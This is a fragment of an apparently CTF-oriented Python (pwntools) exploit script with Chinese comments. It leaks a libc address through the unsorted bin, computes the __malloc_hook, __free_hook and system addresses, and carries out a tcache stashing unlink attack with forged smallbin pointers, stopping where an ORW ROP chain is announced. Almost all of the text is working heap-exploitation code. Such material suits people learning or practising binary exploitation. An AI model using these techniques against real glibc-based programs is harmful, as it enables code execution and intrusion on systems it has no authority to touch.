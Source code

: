    ```python
   free(0)
   show(0)
   #泄漏main_arena中的地址
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   # pause()
   
   
   # 利用tcache stashing unlink attack 将tcache中size为0x220的chunk个数变大
   # 将tcache中size为0x220的chunk个数填充2个,修改next指针，为后面利用后门做铺垫
   
   add(0,b"a"*0x217)
   for i in range(2):
       free(0)
       edit(0,p64(0)*2)
   edit(0,p64(malloc_hook_addr))
   
   #进行tcache stashing unlink attack
   add(0,b"a"*0xf0)
   for i in range(6):  #留一个空间进行
       free(0)
       edit(0,p64(0)*2)
   
   # 构造small bin
   add(0,b"a"*0x400)
   for i in range(7):
       free(0)
       edit(0,p64(0)*2)
   
   add(0,b"a"*0x400)   #smallbin1 0x100
   add(1,b"a"*0x400)
   free(0)
   add(0,b"a"*0x300)
   add(1,b"a"*0x300)  
   
   add(1,b"a"*0x400)   #smallbin2 0x100
   add(2,b"a"*0x400)
   free(1)
   add(2,b"a"*0x300)
   add(2,b"a"*0x300)   
   
   #修改bk指针
   fd = heap_base+0x11a0
   bk = heap_base+0x20-5
   payload1 = b"A"*0x300 + p64(0) + p64(0x101) + p64(fd) + p64(bk)
   edit(1,payload1)
   add(0,b"a"*0xf0)
   
   #最后在栈上构造ROP读取flag
   # 准备ORW
   ```